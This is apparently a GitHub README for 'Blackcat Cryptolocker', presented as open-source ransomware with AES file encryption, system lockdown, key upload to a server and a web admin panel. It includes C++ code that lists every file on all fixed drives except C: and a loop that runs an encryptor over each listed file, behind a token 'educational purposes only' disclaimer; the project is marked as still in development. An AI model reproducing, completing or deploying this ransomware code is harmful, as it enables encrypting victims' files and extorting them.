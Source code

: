 #### DISCLAIMER : OUR TOOLS ARE FOR EDUCATIONAL PURPOSES ONLY. DON'T USE THEM FOR ILLEGAL ACTIVITIES. YOU ARE THE ONLY RESPONSABLE FOR YOUR ACTIONS! OUR TOOLS ARE OPEN SOURCE WITH NO WARRANTY AND AS ARE.

<img src="logon.png" alt="logo">

# Blackcat Cryptolocker

Blackcat Crypto is open source Crypto-Locker. Blackcat Crypto is developed in Visual C++. It has features encrypt all file, lock down the system and send keys back to the server. Multi-threaded functionality helps to this tool make encryption faster.

Using a powerful 256-bit encryption algorithm, Once a file is encrypted, File is completely useless without the password. It simply cannot be read.

## Features

1. Strong AES Encryption. (Unbreakable)
2. Lockdown System Functionailty.
3. Multi-Thread Encryption.
4. Powerful Web Admin Interface

<img src="ezgif-1-e99b3d2b6b39.gif" >

## Step 1 (Fetch files)

Getting all files from all drive to encrypting them.

Here is Visual C++ program get all list directory & files in drive and store path in text file for encryption later use. I use Boost C++ libraries to get all files list. Please first setup Boost libraries to compile program.

```
#include <boost/config/warning_disable.hpp>
#include <boost/filesystem.hpp>
#include <iostream>
#include <iterator>
#include <stdio.h>
#include <windows.h>

using namespace std;

fstream out_file("data.txt", ios::out);

#define MAX 256

int main(int argc, char* argv[]) {

	int dr_type = 99;
	char dr_avail[MAX];
	char *temp = dr_avail;

	/* 1st we fill the buffer */
	GetLogicalDriveStrings(MAX, dr_avail);
	while (*temp != NULL) { // Split the buffer by null
		dr_type = GetDriveType(temp);

		char skip[10] = "C:\\";

		if (dr_type == 3 && temp[0] != 'C') {

			boost::system::error_code dir_error;

			for (boost::filesystem::recursive_directory_iterator end, dir(temp, dir_error); dir != end; dir.increment(dir_error)) {
				if (dir_error.value()) {
					cerr << "Error accessing file: " << dir_error.message() << endl;
				}
				else {
					cout << dir->path() << endl;
					out_file << dir->path() << "\n";
				}
			}
		}
		temp += lstrlen(temp) + 1;
	}
	out_file.close();
	system("pause");
	
```

## Step 2 (Encrypt files)

Here firstly I get every file path from "data.txt" line by line and send to this crypy tool with type encryption and password. you can also embed all this program in upper loop for getting path and encrypting data recursively.

```
out_file.open("data.txt", ios::in);
	string line;
	while (out_file.good()) {
		getline(out_file, line);
		cout << line << endl;
		std::string cmmd = "crpt.exe -e -p 4321 ";
		cmmd += line;
		system(cmmd.c_str());
	}
```

## Step 3 (Create Long String Complex Password Function)

Send length to function and function return complex long generated password which you can use for encryption.

```
string RandomString(int len)
{
	srand(time(0));
	string str = "0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz";
	string newstr;
	int pos;
	while (newstr.size() != len) {
		pos = ((rand() % (str.size() - 1)));
		newstr += str.substr(pos, 1);
	}
	return newstr;
}
```

# Currently in Development....
# Happy Cyber Security.....Happy Open Source.......
# :)
